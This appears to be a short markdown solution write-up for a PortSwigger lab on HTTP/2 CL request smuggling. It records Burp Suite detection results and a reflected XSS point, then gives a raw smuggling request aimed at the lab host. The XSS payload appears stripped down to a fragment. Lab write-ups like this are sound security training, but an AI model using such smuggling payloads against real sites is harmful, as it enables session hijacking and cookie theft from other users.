

# [Lab: H2.CL request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

## Detected H2.CL

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: detected `Issue: CL.0 desync: h2CL|GET /favicon.ico`

## Detected refected xss

`/post/comment/confirmation?postId=">`

## Solutions

setting repeater to work with http 2:



H2.CL smuggling:

```http
POST / HTTP/2^M$
Host: 0a1500370309a192c65b9aea00cc004d.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 0^M$
^M$
GET /post/comment/confirmation?postId="> HTTP/1.1^M$
X-YzBqv: 
```
